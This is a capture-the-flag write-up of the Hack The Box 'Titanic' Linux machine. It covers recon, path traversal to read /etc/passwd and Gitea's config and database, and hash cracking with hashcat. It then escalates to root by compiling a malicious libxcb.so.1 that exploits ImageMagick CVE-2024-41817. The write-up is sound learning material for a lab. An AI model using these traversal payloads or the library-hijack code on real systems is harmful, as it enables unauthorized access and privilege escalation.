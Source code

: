 ```yaml
---
title: Titanic
published: 2025-03-24
description: Easy-rated Linux machine on Hack The Box. 
tags: [HTB, Labs]
category: HTB
draft: false
---
```


# Week 2 Machine: Titanic

# Intoduction

The HackTheBox platform presents Titanic as a Linux-based Capture the Flag (CTF) scenario that recreates an entire simulated server environment. The challenge enables testers to demonstrate multiple cybersecurity competencies through its design which requires people to use technical expertise to solve problems while they perform research effectively. This report outlines my solution process for the Titanic challenge along with all methods and tools and logical reasoning behind it that resulted in successful completion.

# Objective

The essential goal of the Titanic challenge requires exploitation of system vulnerabilities to achieve access authentication and finally obtain hidden flag(s). The task demands successful directory traversal alongside service analysis and utilization of Gitea tools to accomplish the mission while demonstrating outstanding research capabilities.

# **Network Topology & Scope**

The target IP address: 10.10.11.55

Discovered two website:

- titanic.htb/
- dev.titanic.htb/

# Phase 1 : Recon

Every CTF challenge requires an initial reconnaissance phase at the beginning of analysis. The first step started with running Nmap on the target system to detect active open ports with running services. The scan results showed multiple services including a web server.


### Two ports discovered:

- 22/tcp ssh
- 80/tcp http

I had  perform reconnaissance scan using **WhatWeb** and **Metasploit** on the IP address `10.10.11.55`, which is returning a `200 OK` status with a **Meta-Refresh-Redirect** pointing to `http://titanic.htb/`. 


So, after doing this phase, we found out that the target is running Apache/2.4.52 (Ubuntu)

## **Phase 2: Web Exploitation**

As we have one open port 80 so we start with exploring the website.

While performing the Recon phase, we knew that the target is redirecting to the http://titanic.htb. However, the system cannot resolve titanic.htb due to it being an internal hostname, likely part of a target network.

As it is part of a CTF or a test environment, titanic.htb is probably meant to resolve to 10.10.11.55. I manually add this mapping to your /etc/hosts file. Used the following command:

```bash
echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts
```

This way, titanic.htb will point to 10.10.11.55 , and it will access the redirected URL correctly.


So this the home page of the website.

With the help of Wappalyzer, to see what technologies used on the website.


The web application on port 80 appeared to be a simple static site with limited functionality. However, directory enumeration using ffuf revealed hidden paths that were not immediately visible. After that, i had try running ffuf on the webiste titanic.htb/ to see if there are hidden directories or files:


I didn’t find notable domain but with all status 301 but they have one thing common which it has 20 words. Therefore, we used a Filter functional/option to exclude responses with a specific number of words.  


I found a new domain called dev with status 200 and i did the same thing to access the website with manually add this mapping to your /etc/hosts file. 


This was the page for dev.titanic.htb/ .

So, back the titanic.htb/ , i used Brupsuite to play around the website and in the website it has only one functionality that is when we book tickets we get a .json file.


I found one vulnerability called Path Traversal.

Path Traversal (also known as Directory Traversal) functions as a web security bug that enables attackers to navigate beyond web root directory boundaries and access files and directories. Path Traversal occurs when applications let users specify file paths through unvalidated inputs. The vulnerability permits unauthorized users to access important files which may include application configuration details and passwords in addition to the application source code itself.

**How Path Traversal Works**
User-supplied input leads to the development of Path Traversal vulnerabilities because applications build their file paths through client-sourced data. The web application enables users to download files through its URL parameter which requires filename input.

```bash
http://example.com/download?file=report.pdf
```

If the application does not properly validate the `file` parameter, an attacker could manipulate it to access files outside the intended directory:

```bash
http://example.com/download?file=../../../../etc/passwd
```

This could result in the server returning the contents of the /etc/passwd , which it has the information of the user account. 

Again while i was exploring the other website dev.titanic.htb/

When i clicked the explore button it leads to me the GitHub platform where there were two repositories.



With the help of this source code, I put this to [claude.io](http://claude.io) and review or inspect on this code whether it had any vulnerabilities and it gave many but the Path Traversal I tired to keep eye on.


As this way, I download the content of the website.


I found out that developer can be used as a username to login as there was no /nologin

Next, I tired to read the documentation on the Gitea to find the configuration file in order to find the path or the password. 


/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini

this was the path where we found a lot information.



I found the path for me to download the database where i can acquire the database can manipulate the data and can get any information.

I used the command as it was a powerful to  extract and format password hashes from a Gitea SQLite database (`gitea.db`) for further analysis or cracking.


Once the hashes are extracted and formatted, it can be cracked using tools like **hashcat** or **John the Ripper**.

```bash
hashcat gitea.hashes rockyou.txt --user
```


Thus, i found the password.

Next with the help of  ssh, i logged in.


First I found the user.txt and next step, I used the find command to locate all writable directories on the system:

```bash
find / -writable -type d 2>/dev/null
```

- This revealed `/opt/app/` as a writable directory.


A script named identify_images.sh exists as likely one in the /opt/scripts/ directory. I had  located the ImageMagick binary at `/usr/bin/magick` and checked its version:

```bash
/usr/bin/magick --version
```

- The version is `7.1.1–35`.


I discovered that it was CVE-2024-41817, which allows arbitrary code execution via malicious shared libraries loaded by ImageMagick.


Using gcc you generated a malicious shared library (libxcb.so.1) at /opt/app/static/assets/images/ directory.

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```

With this, when loaded by ImageMagick, will copy the `/root/root.txt` file to the current directory and change its permissions.

I found the root.txt.